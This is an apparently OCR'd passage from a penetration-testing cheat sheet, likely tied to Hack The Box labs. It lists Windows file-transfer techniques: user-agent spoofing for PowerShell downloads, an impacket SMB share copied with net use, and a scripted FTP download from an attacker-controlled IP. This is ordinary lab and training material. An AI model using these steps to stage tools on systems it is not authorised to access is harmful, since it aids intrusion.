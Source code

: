     ```powershell
    $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
    ```
  
    And add the flag `-UserAgent $UserAgent` to the download command

#### SMB Downloads

1. Create SMB server

   ```bash
   smb_server()
   ```

   New versions of Windows block unauthenticated guest access, in this case you need to set unsername and password in SMB

   ```bash
   smbserver.py -ip $tunip -username USER -password PASS share . 
   ```

2. Copy a file from the SMB server

   ```cmd
   copy \\[YOUR IP]\share\[FILE]
   ```

   If you need credentials:

   ```cmd
   net use n: \\[YOUR IP]\share /user:USER PASS
   copy n:\[FILE]
   ```

#### FTP Downloads

1. Setting up the server

   ```bash
   sudo python3 -m pyftpdlib --port 21
   ```

    Anonymous authentication is enabled by default

2. Use Powershell `Net.WebClient` or FTP on Windows to download the file

3. If the shell is not interactive, you can create an FTP command file to download the file:                 

   ```cmd-session
   C:\htb> echo open 192.168.49.128 > ftpcommand.txt
   C:\htb> echo USER anonymous >> ftpcommand.txt
   C:\htb> echo binary >> ftpcommand.txt
   C:\htb> echo GET file.txt >> ftpcommand.txt
   C:\htb> echo bye >> ftpcommand.txt
   C:\htb> ftp -v -n -s:ftpcommand.txt
   ftp> open 192.168.49.128
   Log in with USER and PASS first.
   ftp> USER anonymous
   
   ftp> GET file.txt
   ftp> bye
   
   C:\htb>more file.txt
   This is a test file
   ```

